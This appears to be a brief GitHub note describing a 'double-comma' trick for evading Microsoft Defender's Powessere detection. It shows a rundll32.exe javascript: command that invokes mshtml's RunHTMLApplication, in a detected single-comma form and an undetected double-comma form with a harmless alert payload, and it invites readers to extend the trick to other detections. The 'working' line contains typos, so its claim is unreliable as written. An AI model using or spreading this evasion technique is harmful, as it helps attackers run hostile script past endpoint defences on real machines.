 Double-comma trick to bypass Defender's `Trojan.Win32`-esque mitigations/ Tested against `Trojan.Win32/Powessere.G` as of 8 Feb 2024.

```
# Fails. Notice single comma

rundll32.exe javascript:"\..\..\mshtml,RunHTMLApplication";alert(hewwo)

# Works

rundll32.exe javascript:"\..\..\mshtml,,RunHTLMApplication;alert(heewo)
```

Try extending to other detections and playing with the basic idea.


